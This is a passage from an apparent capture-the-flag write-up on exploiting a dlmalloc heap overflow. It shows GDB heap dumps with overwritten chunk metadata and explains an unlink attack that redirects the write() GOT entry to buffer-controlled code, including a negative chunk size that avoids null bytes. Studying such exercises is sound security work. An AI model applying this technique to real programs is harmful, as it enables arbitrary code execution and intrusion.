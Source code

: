 ```
0x804e020:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e030:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e040:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e050:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e060:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e070:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e080:	0x90909090	0x2f909090	0x12345678	0x12345678
0x804e090:	0x12345678	0x12345678	0x90909090	0x90909090
0x804e0a0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0c0:	0x90909090	0x90909090
```

You can see that we've successfully overwritten the heap metadata with our `0x12345678`'s.
For reference, this is what the heap (with it's metadata) looks like if we include an extra  `'/'` before `ROOT` in the second message.

```
0x804e000:	0x00000000	0x00000089	0x44525346	0x90909090
0x804e010:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e020:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e030:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e040:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e050:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e060:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e070:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e080:	0x90909090	0x2f909090	0x00000000	0x00000089
0x804e090:	0x44525346	0x3456782f	0x34567812	0x34567812
0x804e0a0:	0x34567812	0x90909012	0x90909090	0x90909090
0x804e0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0c0:	0x90909090	0x90909090
```
Now we can try modify the script to redirect code execution to somewhere that we can control the (the first buffer). Let's pick `0x804e010` which is an address inside the first buffer.

Now let's find the address of an entry in the GOT that we want to overwrite. We're going to use `write`, which has a GOT entry at `0x804d41c`.

When we actually send this address, we'll need to minus 12 off it, since `unlink` writes to the `bk` field of the chunk and we're passing in the base address of the chunk.

We need to set the heap such that it allows us to exploit the bug in `dlmalloc`. We'll be exploiting the `free` of the first buffer. This means that we need modify the chunk for the second buffer such that it has `PREV_INUSE` bit not set and also the `PREV_INUSE` bit for the next chunk not set. 

There is a small complication that most values for the size member of the chunk struct will require `\x00` to express e.g. if we wanted a size of 100, we'd need to write `\x64\x00\x00\x00`, to the size member. However we cannot use `\x00` since the `read` method will interpret it as the end of the string. Therefore, we use a negative number instead e.g. `\xff\xff\xff\xfc` or -4, this means that it will look for this means we need to place any even number behind the `size` member and it should successfully pass the test. We'll use -4 again, since it makes for cleaner code.

It's also important that we pad the end of `first` message, because of:
```cpp
3803: set_head(p, size | PREV_INUSE);
3804: set_foot(p, size);
```
in the `dlmalloc` implementation, the `set_head` will update the first chunk's size, and the `set_foot` will write to the `next_chunk`'s `prev_size`. However, because the size has been corrupted it'll actually undershoot the "actual" location of the field and write into the end of the first buffer. 
